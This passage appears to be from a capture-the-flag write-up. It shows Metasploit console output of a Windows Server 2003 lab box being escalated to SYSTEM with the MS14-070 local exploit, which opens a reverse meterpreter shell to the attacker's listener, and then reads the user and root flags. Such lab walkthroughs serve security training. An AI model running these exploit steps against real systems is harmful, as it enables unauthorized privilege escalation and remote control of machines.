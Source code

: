 ```console

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Server 2003 SP2


msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set LHOST 10.10.14.2
LHOST => 10.10.14.2
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set SESSION 2
SESSION => 2
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 10.10.14.2:4444
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Sending stage (176195 bytes) to 10.10.10.14
[*] Meterpreter session 3 opened (10.10.14.2:4444 -> 10.10.10.14:1031) at 2020-07-23 22:42:37 -0500

meterpreter > background
[*] Backgrounding session 3...
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  2         meterpreter x86/windows  NT AUTHORITY\NETWORK SERVICE @ GRANPA  10.10.14.2:4444 -> 10.10.10.14:1030 (10.10.10.14)
  3         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ GRANPA           10.10.14.2:4444 -> 10.10.10.14:1031 (10.10.10.14)
```

And with that, I use the administrative session to pull the flags.

```console
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions 3
[*] Starting interaction with 3...

meterpreter > cat "C:\Documents and Settings\Harry\Desktop\user.txt"
bdff ...
meterpreter > cat "C:\Documents and Settings\Administrator\Desktop\root.txt"
9359 ...
meterpreter >
```
